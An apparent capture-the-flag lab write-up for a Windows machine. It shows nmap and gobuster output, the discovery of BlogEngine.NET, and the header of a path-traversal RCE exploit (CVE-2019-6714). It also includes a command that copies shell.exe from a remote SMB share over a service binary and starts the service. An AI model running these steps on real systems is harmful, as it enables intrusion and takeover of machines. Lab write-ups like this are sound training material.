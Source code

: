 ```
C:\Program Files\Deploy Ready>copy \\10.10.0.64\corn\shell.exe Service.exe

C:\Program Files\Deploy Ready>sc start deploy
```


## ENGINE

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 16:07 BST
Nmap scan report for 172.31.1.16
Host is up (0.094s latency).
Not shown: 993 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49154/tcp open  unknown
49155/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.15 seconds
```

### BLOGENGINE

After heading to port 80, there is a default IIS windows server landing page. So as usual I decided to run gobuster against it:
```
gobuster dir -u http://172.31.1.16/ -w /opt/SecLists/Discovery/Web-Content/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://172.31.1.16/
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/12 16:08:51 Starting gobuster
===============================================================
[ERROR] 2020/07/12 16:09:08 [!] Get http://172.31.1.16/Blog: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/aspnet_client (Status: 301)
/blog (Status: 200)
```
At /blog there is a "BlogEngine" service running. After searching online for exploits I found a path traversal exploit which can be found [here](https://www.exploit-db.com/exploits/46353).
```
/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This 
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
 * is caused by an unchecked "theme" parameter that is used to override
 * the default theme for rendering blog pages.  The vulnerable code can 
 * be seen in this file:
 * 
 * /Custom/Controls/PostList.ascx.cs
 *
```